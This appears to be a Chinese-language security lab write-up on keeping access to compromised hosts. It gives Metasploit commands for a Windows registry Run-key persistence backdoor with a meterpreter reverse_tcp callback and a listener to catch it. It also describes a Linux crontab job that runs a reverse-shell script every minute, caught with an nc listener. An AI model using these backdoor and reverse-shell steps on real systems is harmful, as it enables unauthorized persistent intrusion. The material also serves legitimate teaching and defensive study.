



## 实验目的

1、学会使用工具写入windows注册表后门，使用linux计划任务进行权限维持。

## 实验任务

1、在获取windows主机权限后，写入注册表后门进行权限维持，并检验注册表后门的效果

2、在linux系统中写入计划任务后门，并检验计划任务是否正常运行

## 实验步骤

## windows 权限维持 注册后门

在获得shell后background退出
选择注册表后门模块

```text
use exploit/windows/local/persistence
```

然后选择好攻击模块设置参数，攻击机IP和端口，还有设置会话

```plaintext
set payload windows/x64/meterpreter/reverse_tcp  //这句可以不写，因为默认攻击模块就是这个
set lhost 192.168.100.133
set lport 4455
set session 1
run
```


在靶机的对应目录下找到了vbs文件
目录：`C:\Users\win7\AppData\Local\Temp\`


win+r打开运行输入regedit回车即可打开注册表
然后在 `KCU\Software\Microsoft\Windows\CurrentVersion\Run`下即可看到注册表也成功写入

回到攻击机设置msf，让两个红框的内容一致，执行run之后，重启靶机，即可发现，在登录了靶机之后msf自动上线成功

```
use multi/handler
set lhost 192.168.100.133
set lport 4455
run
```



## linux权限维持   计划任务反弹shell

使用crontab命令进行反弹shell。crontab命令用于设置周期性被执行的指令。新建shell脚本，利用脚本进行反弹

（下面是以Ubuntu18.04为例）
1.服务开启
service cron start
2.编辑计划任务
crontab -e -u 用户名
3.查看计划任务
crontab -l -u 用户名
4.删除计划任务：
crontab -r -u 用户名

创建反弹shell脚本，vim  shell.sh
里面的 ip和端口号要和攻击机对应



保存后还要更改文件的权限


然后添加计划任务，需要root权限
vim /etc/crontab
设置反弹shell任务每分钟执行一次
要设置好文件的绝对路径


kali使用nc启动监听，即可监听到shell


